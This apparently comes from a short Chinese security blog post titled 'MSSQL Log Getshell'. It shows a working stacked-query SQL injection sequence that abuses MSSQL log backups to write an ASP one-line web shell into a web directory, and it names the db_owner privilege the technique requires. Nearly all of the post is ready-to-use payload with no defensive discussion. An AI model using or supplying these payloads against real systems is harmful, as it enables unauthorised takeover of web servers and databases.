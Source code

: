 ```yaml
---
title: "MSSQL Log Getshell"
date: 2018-03-14T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mssql','sqli']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


需要支持堆查询.

db_owner 权限即可.

<!--more-->

```
;alter database xxxx set RECOVERY FULL--
;create table cmd (a image)--
;backup log xxxx to disk = 'd:/web/1.bak' with init--
;insert into cmd (a) values ('<% eval request(1) %>')--
;backup log xxxx to disk = 'd:/web/2.asp'--
```



另外还有差异备份, 不过缺点是备份出来的文件会很大.